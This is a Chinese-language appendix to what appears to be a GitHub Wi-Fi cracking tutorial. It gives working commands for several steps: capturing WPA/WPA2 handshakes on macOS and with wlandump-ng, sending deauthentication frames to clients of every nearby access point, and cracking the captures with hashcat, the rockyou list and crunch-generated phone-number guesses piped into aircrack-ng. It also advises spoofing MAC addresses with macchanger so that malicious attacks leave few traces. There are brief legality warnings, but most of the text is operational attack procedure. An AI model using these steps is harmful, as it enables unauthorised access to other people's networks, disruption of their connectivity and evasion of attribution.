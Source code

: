 # 附录
在本教程初次发布之后，来自互联网各个角落的一些人提出了意见和建议。 在努力保持原始教程简短而优美的基础上，我在这里介绍了有关他们精彩建议的信息，并添加了我自己的一些。 在这里，你可以找到以下信息：

- 在MacOS/OSX上破解WI-FI
- 利用`landump-ng`捕获握手
- 利用`crunch`生成单词列表
- 利用`macchanger`保护你的身份

## 在MacOS/OSX上破解WI-FI

非常感谢[@harshpatel991](https://github.com/harshpatel991)提供本指南。以下说明如何使用内置的MacOS/OSX工具捕获4路握手和naive-hashcat来确定WPA/WPA2无线网络的密码。 此方法已在OSX 10.10和10.12版上进行了测试，但也可能与其他版本一起使用。 像主教程一样，它假设你有一个[无线网卡](http://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles-2016.html)支持[监视模式](https://en.wikipedia.org/wiki/Monitor_mode)。我们已经在2012年上半年和2015年中期MacBook Pro上取得了巨大的成功。

### 无线诊断工具

幸运的是，OSX配备了一套无线诊断工具。 要打开它们，请按住键盘上的选项键，然后单击菜单栏中的Wi-Fi图标。 然后点击“打开无线诊断...”

### 决定目标网络信道

打开无线诊断程序，单击窗口>扫描。 找到目标网络，注意其信道和宽度。

### 捕获一个4路握手

1. 打开无限诊断，点击窗口>嗅探器。选择你在上一步中找到的信道和宽度。
2. 现在，你需要等待设备连接到目标网络。如果你正在网络上测试（你应该），请重新连接无线设备以捕获握手。
3. 一旦你认为已经捕获手握手，请点击停止。
4. 根据你的操作系统版本，`.wcap`捕获文件将被保存到桌面或`/var/tmp/`。
5.将捕获文件转换为`.hccapx`，将其上传到https://hashcat.net/cap2hccapx/。 如果你捕获到任何握手，站点将开始下载一个`.hccapx`文件。 如果没有，将不会提示下载。

### 利用`naive-hashcat`破解密码

```bash
# 克隆naive-hashcat
git clone https://github.com/brannondorsey/naive-hashcat
cd naive-hashcat

# 在MacOS/OSX上构建源代码
./build-hashcat-osx.sh

# 下载134MBrockyou字典文件
curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

最后，运行`naive-hashcat.sh`。将`handshake.hccapx`的名称改成你从[hashcat.net](https://hashcat.net/cap2hccapx/)下载的文件名称。`cracked.pot`是输出文件名称。

```
HASH_FILE=handshake.hccapx POT_FILE=cracked.pot HASH_TYPE=2500 ./naive-hashcat.sh
```

Thanks again to [@harshpatel991](https://github.com/harshpatel991), as well as [phillips321](http://www.phillips321.co.uk/) for his [post](https://www.phillips321.co.uk/2016/07/09/hashcat-on-os-x-getting-it-going/) about building hashcat for OSX.
再次感谢[@harshpatel991](https://github.com/harshpatel991)，以及感谢[phillips321](http://www.phillips321.co.uk/)他的在OSX上构建hashcat的[帖子](https://www.phillips321.co.uk/2016/07/09/hashcat-on-os-x-getting-it-going/)。

## 利用`wlandump-ng`来捕获握手

[@enilfodne](https://github.com/enilfodne)已经[告诉我](https://github.com/brannondorsey/wifi-cracking/issues/15)hashcat社区对于捕获WPA 4路握手有了更好的工具，叫做`wlandump-ng`。这个工具属于与hashcat相关的工具集[hcxtools](https://github.com/ZerBea/hcxtools)系列之中，由[ZerBea](https://github.com/ZerBea)开发，名声已经超过了`airdump-ng`。`wlandump-ng`允许你一次性从每个附近的网络上全面捕获握手信息，跳过Wi-Fi信道，以增加收集。


```bash
# 克隆hcxtools
git clone https://github.com/ZerBea/hcxtools
cd hcxtools

# 构建并且安装
# 你将可能需要apt来安装需要的依赖
# https://github.com/ZerBea/hcxtools#requirements
make
sudo make install

# 覆盖所有失去从附近接入点失去连接的客户端并且监听重新连接
# 将wlan0替换成你的无线设备名称
wlandump-ng -i wlan0 -o capture.cap -c 1 -t 60 -d 100 -D 10 -m 512 -b -r -s 20 

# 一旦你获得了捕获的文件，你可以利用以下命令将其转换成hashcat捕获格式
cap2hccapx.bin capture.cap capture.hccapx
```

`wlandump-ng`命令行参数（使用`h`标志来获得完整列表）：

- `-c 1`：从通道1开始的2.4Ghz范围（将转到13）
- `-t 60'：每个通道停留60s（实验值较低，默认值为5）
- `-d 100`：发送deauth每100个信标帧
- `-D 10`：每隔10个信标帧发送解析数据包
- “-m 512”：内部缓冲区大小，对于低资源机器使用512
- `-b`：激活信号到最后10个探测请求
- `-r`：如果循环在通道1上，则重置deauthentication / detachosciation计数器
- `-s 20`：显示20条状态行

**警告：**在大多数地方使用这个是不合法的。更多信息请参考[这]((https://github.com/ZerBea/hcxtools#warning)。

`wlandump-ng`也提供了在被动模式下运行的选项，而不会发送任何解除认证/解除关联帧。 如果你对中断你周围的人的网络活动（你应该是）敏感，则建议你这样做。代价是你将获得的握手少得多，这种方法使得捕获不可见。

```bash
# 在被动模式下使用默认设置运行
wlandump-ng -i wlan0 -o capture.cap -p -s 20 
```

## 使用`crunch`生成单词列表

`crunch`是使用给定字符串或模式的组合生成单词列表的工具。 我们可以使用crunch来即时生成密码列表，并将其管理为`aircrack-ng`，而不会将单词列表保存到磁盘。


```bash
# 安装crunch
sudo apt-get install crunch
```

要想知道如何运行crunch，可以从命令行运行（一旦开始发送密码，就可以按`ctrl-c`）：

```bash
# 语法8 8是生成密码的最小长度和最大长度
# 01234567890是组合/排列构成密码的一组字符
crunch 8 8 0123456789
```

```
Crunch现在将生成以下数据量：900000000字节
858 MB
0 GB
0 TB
0 PB
Crunch现在将生成以下行数：100000000
00000000
00000001
00000002
00000003
00000004
00000005
00000006
00000007
00000008
00000009
...
99999999
```

我们可以将`crunch`的输出作为输入输出到`aircrack-ng`，使用它生成的密码作为我们的单词列表。 这里我们使用`crunch`特殊规则字符`%`来表示数字。 此命令尝试破解10位电话号码的WPA密码（使用crunch即时生成的102GB的号码）：

```bash
# 我们也可以使用-t "@^%,"  使用模式'@' 替换小写 ',' －替换大写
# '%' －替换数字以及'^' －替换特殊字符
# *************** 不要忘记最后的'-'
crunch 10 10 -t "%%%%%%%%%%" | aircrack-ng -a2 capture.cap -b 58:98:35:CB:A2:77 -w -
```

感谢[@hiteshnayak305](https://github.com/hiteshnayak305)介绍`crunch`并将此次更新作为[PR](https://github.com/brannondorsey/wifi-cracking/pull/17)。

## 利用`macchanger`魄户你的身份

每当您使用Wi-Fi进行任何远程恶意攻击时，最好是伪造你的Wi-Fi设备的MAC地址，以便记录的任何网络流量都不能与设备制造商分配的串行连接。

这是利用`macchanger`的一个小尝试：

```bash
# 下载MAC changer
sudo apt-get install macchanger

# 关闭设备
sudo ifconfig wlan0 down

# 改变mac
# -A 为有效的供应商分配一个随机的MAC w/a
# -r 让它真正随机
# -p 将其恢复到原始的硬件MAC
sudo macchanger -A wlan0

# 启动设备
sudo ifconfig wlan0 up
```

如果你有多张无线网卡，那么改变所有无线网卡的MAC是个好主意。 或者更好的是，当你尝试捕获握手时，将未使用的无线接口关闭，尽可能少地留下痕迹。 请注意，欺骗更改在重新启动时不会持续。
